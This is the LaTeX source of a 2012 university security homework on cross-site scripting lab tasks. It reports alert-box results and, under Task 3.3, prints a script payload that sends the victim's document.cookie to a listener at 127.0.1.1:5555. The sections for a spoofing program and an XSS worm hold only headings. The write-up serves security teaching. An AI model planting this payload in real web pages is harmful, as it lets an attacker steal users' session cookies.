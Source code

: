\documentclass[12pt]{article}
\begin{document}
\title{CS4238 Homework 2}
\author{Laurence Putra Franslay (U096833E)}
\date{22th Oct 2012}
\maketitle

\section{Task 3.1}
An alert box containing the text `XSS' pops up.\\

\includegraphics[width=160mm]{task31.png}

\section{Task 3.2}
An alert box containing the contents of the cookie pops up.\\

\includegraphics[width=160mm]{task32.png}

\section{Task 3.3}
The cookie information is all sent to the destination.

\begin{lstlisting}
<script>document.write('<img src=http://127.0.1.1:5555?c='+ document.cookie + '>');</script>
\end{lstlisting}
\includegraphics[width=160mm]{task33.png}

\section{Task 3.4}
\lstset{caption=spoof.java}


\section{Task 3.5}
\lstset{caption=XSS Worm}

\enddocument
\end{document}
